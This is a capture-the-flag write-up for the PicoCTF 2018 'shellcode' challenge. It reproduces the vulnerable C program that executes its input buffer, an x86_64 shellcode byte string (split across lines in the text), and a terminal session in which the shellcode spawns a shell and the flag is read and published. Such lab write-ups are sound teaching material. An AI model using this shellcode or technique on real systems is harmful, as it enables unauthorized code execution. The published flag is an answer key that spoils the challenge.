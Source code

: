 ```yaml
---
layout: post
title:  PicoCTF 2018 Challenge [Binary Exploitation 200pts]
---
```

<h3><strong>PicoCTF 2018 - Binary Exploitation 200: shellcode</strong></h3>

<hr>

<p><strong>Challenge</strong></p>

<p>
This program executes any input you give it. Can you get a shell?

You can find the program in ``` /problems/shellcode_0_48532ce5a1829a772b64e4da6fa58eed ``` on the shell server.

Source
</p>

<hr>

<p> The challenges were very easy i have solved several of challenges but I just wrote some useful solutions </p>

<p><strong>Solution</strong></p>

``
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 148
#define FLAGSIZE 128

void vuln(char *buf){
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  char buf[BUFSIZE];

  puts("Enter a string!");
  vuln(buf);

  puts("Thanks! Executing now...");

  ((void (*)())buf)();

  return 0;
}
``

by executing we connected remotly shell and show as : 

``
drwxr-xr-x   2 root       root          4096 Sep 28 08:11 ./
drwxr-x--x 576 root       root         53248 Sep 30 03:45 ../
-r--r-----   1 hacksports shellcode_0     34 Sep 28 08:11 flag.txt
-rwxr-sr-x   1 hacksports shellcode_0 725408 Sep 28 08:11 vuln*
-rw-rw-r--   1 hacksports hacksports     562 Sep 28 08:11 vuln.c
``

the terminal shown a list of files contain Flag.txt , but we don"t have the right permision , so we need to get read the content of flag.txt by vuln .
we have already know "shellcode" i adopted Shellstorm collections 


``
$ uname -a
Linux pico-2018-shell-1 4.4.0-1067-aws #77-Ubuntu SMP Mon Aug 27 13:22:03 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
``

Linux x86_64 i wrote a shellcode : 

``
$ python -c "print('\xeb\x12\x31\xc9\x5e\x56\x5f\xb1\x15\x8a\x06\xf
e\xc8\x88\x06\x46\xe2\xf7\xff\xe7\xe8\xe9\xff\xff\xff\x32\xc1\x32\xca\x52\x69\x30\x74\x69\x01\x69\x30\x63\x6a\x6f\x8a\xe4\xb1\x0c\xce\x81')" > ~
/shellcode.txt

$ cat ~/shellcode.txt - | ./vuln
Enter a string!
1V_ȈF22i0tii0cjo΁
Thanks! Executing now...

ls
flag.txt  vuln  vuln.c
cat flag.txt
picoCTF{shellc0de_w00h00_9ee0edd0}

``
Bingo, we Got the Flag  

picoCTF{shellc0de_w00h00_9ee0edd0}

<p>#0v3n_Sh3ll ❤</p>
